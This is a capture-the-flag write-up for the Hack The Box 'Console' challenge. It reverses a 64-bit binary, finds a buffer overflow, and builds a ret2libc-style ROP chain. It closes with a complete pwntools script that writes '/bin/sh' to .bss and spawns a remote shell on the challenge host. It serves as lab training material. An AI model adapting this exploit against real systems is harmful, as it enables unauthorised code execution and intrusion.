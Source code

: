 # HTB Console - Write Up
Very basic pwn challenge, from the second i ran checksec and file i already knew it was ret2libc.

![file](file.png)

64bit, dynamically linked and also stripped so spin up ghidra realfastmyg
First thing i look for when im doing reverse is interesting functions such as gets, fgets, strcpy etc, but in FUN_00401201's case.
![file](funcs.png)

# Finding Primitives. 
I know ghidra looks disgusting, but if you havent noticed yet. We have interesting stuff, such as HOF.
```c
else {
    var = strcmp(param_1,"hof\n");
    if (var == 0) {
        puts("Register yourself for HTB Hall of Fame!");
        printf("Enter your name: ");
        fgets(&DAT_004040b0,10,stdin);
        puts("See you on HoF soon! :)");
    }
}
```
The `hof` command serves as a simple interaction point for users to register their names for a Hall of Fame feature.
Command Recognition -> The program recognizes the command and executes the corresponding block of code.
User Interaction -> It engages the user by asking for their name after displaying a message about the Hall of Fame.
Input Handling -> The program collects user input into a designated memory location **DAT_004040b** which is likely stored in the **BSS segment**.

Likely ? Lets make sure
![file](binsh.png)

As you can see, theres binsh !, so indeed hof writes everything we type into the bss seg. What i did here is ive put the binary in gdb, ran it, wrote hof then wrote binsh and examine'd the addr found during the RE.

Now what ? 
# Find the big boss
the boss is literally above the hof 
```c
    else {
      var = strcmp(param_1,"flag\n");
      if (var == 0) {
        printf("Enter flag: ");
        fgets(buffer,0x30,stdin);
        puts("Whoops, wrong flag!");
      }
```
for me i see it as simple bof. Lets debug.

![file](bof.png)

whatever also use `pattern create` , now run `i f ` then copy the saved rip value then run `pattern offset 0x6161616161616164` then itll show that the offset is 24.

# Now what ?
we got the offset.
we got the address of binsh.

we need system to make it classic ret2libc, and lucky for us we have a command calls system which is date.
```c
          else {
            var = strcmp(param_1,"date\n");
            if (var == 0) {
              system("date");
            }
```
we need to get the address of system.
and also since we're dealing with 64bit calling conventions we need a ROP Gadget, `pop rdi ret` will do us a favor.

jus use this
```
objdump -D htb-console | grep system
```
and you should find zis

![file](system.png)

now last but not least, za pop rdi ret.

![file](poprdiret.png)

Now we got everything we need to build our exploit:
```
offset = 24
binsh addr = 0x004040b0
system_addr = 0x00401381
pop_rdi_ret = 0x401473
```

ilovepwntoolsitmakesmylifeeasier

now the exploit should look like this.

![file](exploitb4.png)


and thats it ENjoy zaexploit.

```py
#!/usr/bin/env python3
from pwn import *

r = remote("83.136.254.158", 36429)
# stuff
pop_rdi = 0x0401473
offset = 0x18 # 24
binsh_addr = 0x004040b0
system_addr = 0x00401381

# Write binsh to .bss
r.recvuntil('>> ')
r.sendline('hof')
payload = b'/bin/sh\x00'
r.recvuntil('Enter your name: ')
r.sendline(payload)

# Trigger the bof
r.recvuntil('>> ')
r.sendline('flag')

# last step
payload = flat(
        b'A' * offset,
        p64(pop_rdi),
        p64(binsh_addr),
        p64(system_addr),
)

# Exploit it
r.recvuntil('Enter flag: ')
r.sendline(payload)
r.interactive()
```

L33tJbr
